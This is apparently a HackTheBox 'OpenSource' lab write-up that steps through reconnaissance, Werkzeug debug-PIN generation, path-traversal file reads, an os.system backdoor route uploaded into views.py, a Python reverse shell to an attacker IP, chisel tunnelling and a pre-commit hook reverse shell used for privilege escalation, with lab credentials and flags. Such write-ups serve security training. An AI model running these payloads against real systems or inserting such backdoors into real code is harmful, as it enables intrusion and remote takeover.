




# OpenSource

## Reconnaissance
### nmap 

```
nmap -sL -sV -sC --min-rate 5000 10.10.11.164
```

### Target Page 

- Home Page:  ```http://10.10.11.164```


- Click 'Download' to Download Source Code


- Click 'Take me there !',  it will direct to upload page (```/upcloud```)
- Upload Page: ```http://10.10.11.164/upcloud```


- Success Upload


#### Error message 

- Try to cause the error (Modify the name parameter in burp)


- Error Messge shows that the python library : werkzeug


- And there is a message show up, it means "See Werkzeug “console locked” message by forcing debug error page in the app".


- The Error message shows detail error message


#### Console page

- Find ```/console ``` page, and try arbitray code, it will response error code


#### Research for console pin code exploit

In this [article](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug), we can know the algorithm generating PIN code locate in Werkzeug’s debug ```__init__.py ``` file. (```e.g. python3.5/site-packages/werkzeug/debug/__init__.py```)

- The research from [Werkzeug Console Pin Exploit](#PinExploit)
- So, let's check the code.
<details class="code" name='Werkzeug_source'><summary>Source Code</summary>
    
```
def get_pin_and_cookie_name(app):
    pin = os.environ.get('WERKZEUG_DEBUG_PIN')
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == 'off':
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace('-', '').isdigit():
        # If there are separators in the pin, return it directly
        if '-' in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, '__module__',
                      getattr(app.__class__, '__module__'))

    try:
        # `getpass.getuser()` imports the `pwd` module,
        # which does not exist in the Google App Engine sandbox.
        username = getpass.getuser()
    except ImportError:
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, '__name__', getattr(app.__class__, '__name__')),
        getattr(mod, '__file__', None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
    ]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv, cookie_name

```
</details>
- Focus on following function 
<details class="code" name="information_source">
    <summary>Source Code </summary>

```
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```
</details>
- Failed to generate valid pin code

<details class="code" name="exploit"> <summary>Exploit Code</summary> 

```
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
</details>

## Exploitation
### Source Code Research 

- Check Source Code, and find out the vulnerable entry point 
    - Check the ```views.py```

    
    - Check the ```utils.py```
    
    
    - Check other branch 
    ```
    git branch --list
    ```
    
    
    ```
    git checkout dev
    ```
    
    
    ```
    git log 
    ```
    
    
    ```
    git show <commit id>
    ```
    

- I find a proxy login record, but so far, I haven't find any place to use it.
```
dev01:Soulless_Developer#2022
```


### Vulnerability 

- In ```utils.py```, we can find the following code

```
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

and 

```
def get_unique_upload_name(unsafe_filename):
    spl = undsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
```

Here are common filter code to avoid the LFI.
It only replace ```"../"``` to empty.

```
return recursive_replace(unsafe_filename, "../", "")
```
- With above code review, let's try the following payload : 

```
/uploads/..//..//..//..//sys/class/net/eth0/address

```


- We can get the mac address.
- With following payloads, we can get passwd file content.
```
/uploads/..//..//..//..//etc/passwd

```

- So, I think we can use this vulnerability to disclose the file.
- and with the upload function, we can also change the file_name with payload to upload the file to specify location (ex. replace ```views.py```)

### Craft the malicious views python file

- add the following function in the views file

```
@app.route('/hello')
def rce():
    return os.system(request.args.get('cmd'))
```


- Upload the file to victim server by Upload function


- nc listener

```
nc -nlvp 1337
```

- Check the python reverse shell in [here](https://www.revshells.com/)


- Access 
```
http://10.10.11.164/hello?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.13",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
- The terminate will get the reverse shell on my port 1337, and check the victim with this shell, I know I'm in the container now.
- It also means the upload web application run in Container.


- So now, try to set up connection to jump out from container.(just like set up a port-forwarding from container to attack host)
- [chisel](#chisel)

### chisel compile

- In chisel directory, build up with go language

```
go build
```

- [Install GO language in Kali linux]

### chisel bug 

- When I upload the chisel to victim server by the upload function, and provide the permission 


- check chisel in docker


- Try to change chisel's permission, but failed
```
chmod +x chisel
```


- move the chisel to another directory 


- Change the permission again
```
chmod +x chisel
```


- Execute it 

```
./chisel 
```


- It will show the message with 'not found ' 


#### Research for bug 

- [statifier](#statifier)
- Reason 


#### Final Solution

After trying different solution, like statifier.
The final working one is compile  with 386 Arch

- compile the chisel by following 

```
GOOS=linux GOARCH=386 go build
```


### Run chisel 

- Upload chisel


- Set up the permission and try to run it


- Execute chisel with following: 
```
# on Kali

./chisel server -p 9898 --reverse

# on Victim

./chisel client 10.10.16.13:9898 R:3000:172.17.0.1:3000
```


- Browser access ```127.0.0.1:3000``` will find a Gitea Home Page


- [Gitea](https://docs.gitea.io/zh-tw/)
- Here are a sign in page, I think the credential I found previous maybe useful.


- After login with ```dev01 / Soulless_Developer#2022```


- Here is a repository, take a look.


- Checking the ssh directory, here are ssh private key, download it.


- I can get the ssh user is dev01 from authorized_keys


- Download the git repository and login by ssh
```
ssh -i id_rsa dev01@10.10.11.164
```


- Get user flag : ```b752c059247cdf317948443633a3e999```


## Post Exploitation 

- Create local HTTP server for upload the script to victim in convinence
```
python3 -m http.server 5555
```


Upload the following tools : 
1. linpeas.sh
2. [pspy](https://github.com/DominicBreuker/pspy)

<details class="image" name="linpeas">
    <summary>linpeas result</summary>

-- there aren't too much useful information





    
</details>
    
- git log result 
- Here are many backup log in a few seconds


- With this log, it looks like a commit schedule, like crontab, but crontab is empty 


- pspy64s result 

    - Here are a special command
    ```
    /bin/sh .git/hooks/pre-commit
    ```


- It is a git library -> pre-commit, here are some research for that.


<details class="Ref" name="precommit">
    <summary>pre commit</summary><h5 id=pre_commit>What's pre-commit </h5>
    
    During the project develop, devloper will use repository to backup or sharing the project code wiht co-worker. 
    Before commit, they will need to check many issue like missing semicolons, trailing whitespace, and debug statements.
    pre-commit is very useful tool to handle the check procedure automatically.
    
    The advantage of pre-commit :
        1. Automatically check the low-level mistake in source code, like template, comment and so on.
        2. Let code reviewer have more time to check the architecture and focus on logical error.
        3. Support multiple language
    


- pre-commit usage:
    


- The 'pre-commit' is a concept, there are many different tools can achiev the goal of pre-commit.  
</details>

    
- The origin content of pre-commit


- reverse shell in pre-commit content 

```
cat .git/hooks/pre-commit
```


```
rm /tmp/f;
mkfifo /tmp/f;
cat /tmp/f
```
- Result 


- Get flag: ```365b8ec2c3f41acdc49cd8967bb6e860```


## Reference 

- [Privilege Escalation Cheat Sheet](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
- [(GITHUB)Privilege Escalation List](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [Linux Post Exploitation Scripts](https://fareedfauzi.gitbook.io/oscp-notes/linux-post-exploitation/linux-post-exploitation-scripts)

### Writeup

- [(Writeup)HTB: OpenSource](https://davidguest.uk/htbopensource/)
- [(Writeup)OPENSOURCE](https://github.com/Dr-Noob/HTB/blob/master/writeups/opensource.md)
- [(Writeup)(GITHUB)htb-opensource](https://github.com/devdg/htb-opensource)
- [(Tools)Chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
- [(Video)Writeup](https://www.youtube.com/watch?v=k2Zn9Uj3YYI)

#### Discussion

- [Discussion](https://breached.to/Thread-OpenSource-HTB-Discussion)

### Tools

#### statifier

- [statifier](http://statifier.sourceforge.net/)
- [(GITHUB)statifier](https://github.com/greenpau/statifier)
- [statifier tutorial](https://www.linux.com/news/quickly-move-executable-between-systems-elf-statifier/)
- [statifier pkg](https://altlinux.pkgs.org/p10/classic-x86_64/statifier-1.7.4-alt1.x86_64.rpm.html)
- [statifier download site](https://sourceforge.net/projects/statifier/)
- [ELF statifier](https://sourceforge.net/projects/statifier/)
- [ELF statifier Tutorial Sample](https://blog.csdn.net/hngsc_0/article/details/3161041)
- [ELF statifier Tutorial](https://www.linux.com/news/quickly-move-executable-between-systems-elf-statifier/)
- [(GITHUB)statifier source code](https://github.com/greenpau/statifier/blob/master/INSTALL)


### chisel

- [(GITHUB)Chisel](https://github.com/jpillora/chisel)
- [Chisel](https://chisel.cis.upenn.edu/start.html)
- [Chisel Kali Linux](https://www.kali.org/tools/chisel/)

#### Other Toooools

- [(GITHUB)LinEnum](https://github.com/rebootuser/LinEnum)
- [(GITHUB)LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [(GITHUB)LinPeas Release](https://github.com/carlospolop/PEASS-ng/releases)
- [Online Reverse Shell](https://www.revshells.com/)
- [(GITHUB)pspy - unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)

<!--<h3 id="PinExploit"> Python Werkzeug Console PIN Exploit</h3>-->
### PinExploit

- [(blog)Werkzeug Console PIN Exploit](https://www.daehee.com/werkzeug-console-pin-exploit/)
- [(HackTrick)Python werkzeug console RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)


- [Werkzeug Console PIN Exploit](https://www.daehee.com/werkzeug-console-pin-exploit/)
- [Flask RCE Debug Mode](http://ghostlulz.com/flask-rce-debug-mode/)
- [Console PIN Exploit Sample - The Prophet Writeup](https://ctftime.org/writeup/17955)
- [(Failed)(metasploit)Werkzeug Debug Shell Command Execution](https://www.rapid7.com/db/modules/exploit/multi/http/werkzeug_debug_rce/)

- [(metasploit Source Code)Werkzeug Debug Shell Command Execution](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/werkzeug_debug_rce.rb)
- [(GITHUB)Werkzeug Console Pin Exploit](https://github.com/grav3m1nd-byte/werkzeug-pin)
- [(GITHUB)Werkzeug-Debug-RCE](https://github.com/its-arun/Werkzeug-Debug-RCE)
- [(GITHUB)werkzeug](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py)

### make install usage

- [(Debug)make: Nothing to be done for 'all' 解决方法](https://blog.51cto.com/bbaobelief/785798)


- [make: Nothing to be done for 'all' 解决方法](https://blog.csdn.net/qq_31638535/article/details/80334001?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-80334001-blog-51335666.pc_relevant_multi_platform_whitelistv3&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-80334001-blog-51335666.pc_relevant_multi_platform_whitelistv3)


- [make uninstall](https://askubuntu.com/questions/87111/if-i-build-a-package-from-source-how-can-i-uninstall-or-remove-completely)


#### Useful Technique

- [Login by SSH Private Key](https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac)
- [wget download file](https://www.pair.com/support/kb/paircloud-downloading-files-with-wget/)
- [curl download file](https://www.cyberciti.biz/faq/download-a-file-with-curl-on-linux-unix-command-line/)
- [Go lang Build up](https://go.dev/doc/tutorial/compile-install)
- [Gitea](https://docs.gitea.io/zh-tw/)
- [Docker install on Kali Linux](https://www.kali.org/docs/containers/installing-docker-on-kali/)
- [Golang install on Kali Linux](https://installati.one/kalilinux/golang/)


### Error Handling
- [chisel not found issue solution](https://forum.hackthebox.com/t/official-opensource-discussion/257694/190)


- [(Error Handling)"fatal error: bits/libc-header-start.h: No such file or directory" while compiling HTK](https://stackoverflow.com/questions/54082459/fatal-error-bits-libc-header-start-h-no-such-file-or-directory-while-compili)


#### Git Operation

- [git pre-commit](https://mropengate.blogspot.com/2019/08/pre-commit-git-hooks_4.html)


- [pre-commit offical](https://pre-commit.com/)


- [pre-commit introduction](https://mropengate.blogspot.com/2019/08/pre-commit-git-hooks_4.html)


- [git log](https://git-scm.com/book/zh-tw/v2/Git-%E5%9F%BA%E7%A4%8E-%E6%AA%A2%E8%A6%96%E6%8F%90%E4%BA%A4%E7%9A%84%E6%AD%B7%E5%8F%B2%E8%A8%98%E9%8C%84)
- [git show](https://git-scm.com/docs/git-show)
- [git log history](https://dotblogs.com.tw/michaelfang/2016/11/26/git-log-git-show)
- [檢視特定檔案的 Commit 紀錄](https://gitbook.tw/chapters/using-git/view-log-of-a-file)

## Other Note

- Install Golang
```
sudo apt install -y golang
```
- Chisel Install 
```
curl https://i.jpillora.com/chisel! | bash
```
- source code
```
git clone https://github.com/jpillora/chisel.git

go compile 
```
``` go build ```
- statifier 
    - dowload 
```
sudo apt -y install gcc-multilib
make 
make install 
```

###### tags: `HackTheBox` `Easy` `linux` `chisel`